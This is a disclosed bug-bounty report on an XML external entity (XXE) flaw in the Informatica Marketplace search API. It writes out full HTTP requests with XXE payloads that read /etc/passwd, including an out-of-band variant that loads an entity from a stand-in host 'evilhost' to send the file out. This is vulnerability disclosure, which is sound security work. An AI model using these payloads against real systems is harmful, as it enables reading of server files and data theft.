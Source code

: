 # [marketplace.informatica.com] - XXE

## Report Details
- **Report ID**: 106797
- **URL**: https://hackerone.com/reports/106797
- **State**: Closed
- **Severity**: high
- **Submitted**: 2015-12-24T18:17:17.892Z
- **Disclosed**: 2016-12-09T08:06:26.920Z

## Reporter
- **Username**: yarbabin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Request:
`POST /api/rest/mpapi/infaMPAPISearchWebService/query HTTP/1.1`
`Host: marketplace.informatica.com`
`Connection: keep-alive`
`Content-Length: 140`
`Accept: */*`
`X-J-Token: no-user`
`X-Requested-With: XMLHttpRequest`
`User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/537.36`
`Origin: https://marketplace.informatica.com`
`Content-Type: application/json`
`Referer: https://marketplace.informatica.com/ecmp-helper!troubleLogin.jspa`
`Accept-Encoding: gzip, deflate`
`Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4`

`{"params":{"source":"marketplace","rows":5,"offset":0,"queryParams":{"query":"lol","fieldList":"[\"id\", \"title\"]","sortBy":"relevance"}}}`

But, if we change content-type to application/xml and convert JSON to XML:
`POST /api/rest/mpapi/infaMPAPISearchWebService/query HTTP/1.1`
`Host: marketplace.informatica.com`
`Connection: keep-alive`
`Content-Length: 350`
`Accept: */*`
`X-J-Token: no-user`
`X-Requested-With: XMLHttpRequest`
`User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/537.36`
`Origin: https://marketplace.informatica.com`
`Referer: https://marketplace.informatica.com/ecmp-helper!troubleLogin.jspa`
`Accept-Encoding: gzip, deflate`
`Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4`
`Content-Type: application/xml;charset=UTF-8`

`<?xml version="1.0" encoding="UTF-8" standalone="no"?>`
`<!DOCTYPE foo [  `
`<!ELEMENT foo ANY >`
`<!ENTITY xxe SYSTEM "file:///etc/passwd1" >]>`
`<params>`
`<offset>0</offset>`
`<queryParams>`
`<query>&xxe;</query>`
`<sortBy>relevance</sortBy>`
`<fieldList>["id", "title"]</fieldList>`
`</queryParams>`
`<source>marketplace</source>`
`<rows>5</rows>`
`</params>`

I get response: `JAXBException occurred : /etc/passwd1 (No such file or directory). /etc/passwd1 (No such file or directory). `

Then, i try to get /etc/passwd with OOB vector:
`POST /api/rest/mpapi/infaMPAPISearchWebService/query HTTP/1.1`
`Host: marketplace.informatica.com`
`Connection: keep-alive`
`Content-Length: 350`
`Accept: */*`
`X-J-Token: no-user`
`X-Requested-With: XMLHttpRequest`
`User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/537.36`
`Origin: https://marketplace.informatica.com`
`Referer: https://marketplace.informatica.com/ecmp-helper!troubleLogin.jspa`
`Accept-Encoding: gzip, deflate`
`Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4`
`Content-Type: application/xml;charset=UTF-8`

`<?xml version="1.0" encoding="UTF-8" standalone="no"?>`
`<!DOCTYPE foo [  `
`<!ENTITY % b SYSTEM "file:///etc/passwd">`
`<!ENTITY % asd SYSTEM "http://evilhost/xx.html">  %asd;  %rrr;]>`
`<params>`
`<offset>0</offset>`
`<queryParams>`
`<query>&xxe;</query>`
`<sortBy>relevance</sortBy>`
`<fieldList>["id", "title"]</fieldList>`
`</queryParams>`
`<source>marketplace</source>`
`<rows>5</rows>`
`</params>`

And I got it :) 

## Attachments
- xxe_infor.png
